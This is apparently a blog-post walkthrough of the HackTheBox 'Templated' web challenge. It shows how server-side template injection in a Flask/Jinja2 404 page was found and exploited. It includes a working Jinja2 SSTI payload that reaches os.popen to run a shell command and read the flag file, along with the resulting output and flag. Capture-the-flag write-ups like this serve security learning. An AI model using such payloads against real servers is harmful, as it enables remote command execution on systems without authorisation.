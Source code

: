 ```yaml
---
title: "Templated"
date: 2022-09-20T15:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```



Another great web challenge.

the website could not make it more obvious
google `flask/jinja2` exploit or vulnerability

Seems like its `template injection` (SSTI)
you can read [this](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
and also [this](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part) one if you want!
But where do i inject the code? Inspecting the source code gives nothing
fiddling a bit with the url path we notice the `404 page` renders whatever is added to path
that's it! we need to do it directly in the url path

I tried this:
`http://178.62.54.69:30320/{{7*7}}`

And got that

```text
Error 404

The page '49' could not be found
```

you got it! 7*7 got executed! now its free real estate!

Our magic payload looks like this! modify at will and append it to url path

```bash
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```
Profit!

```text
Error 404

The page 'HTB{t3mpl4t3_0f_fl4g_h3r3!} ' could not be found
```

Yeah this challenge was actually easy?

weird for HTB standards

